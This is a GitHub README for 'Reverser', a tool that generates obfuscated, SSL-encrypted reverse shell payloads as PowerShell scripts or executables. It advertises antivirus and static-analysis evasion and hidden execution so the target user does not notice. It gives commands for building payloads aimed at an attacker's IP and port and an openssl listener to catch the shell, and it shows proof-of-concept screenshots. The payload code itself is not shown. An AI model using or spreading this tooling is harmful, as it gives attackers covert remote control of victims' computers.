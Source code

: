 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

# Installtion

Clone the repository:
```bash
 git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```
Install the necessary dependencies:
```bash
pip install -r requirements.txt
```
Ensure Mono is installed:
```bash
sudo apt-get install mono-complete
```


## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload with Obfuscation**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Generating a Payload with Random Obfuscationn**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type <exe | ps1> -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet

# PoC:
Creating an obfuscated EXE file that contain a Reverse Shell:

![image](https://github.com/user-attachments/assets/64ff1b49-f1c8-401c-8423-ab851c51c9b9)


Running the EXE file, creating an encrypted connection:

![image](https://github.com/user-attachments/assets/1a1bbdc3-b571-4239-a141-04cec47b40ce)


Receiving Reverse shell:

![image](https://github.com/user-attachments/assets/640cbfae-fb92-4515-b2bd-7df87bec7cf3)




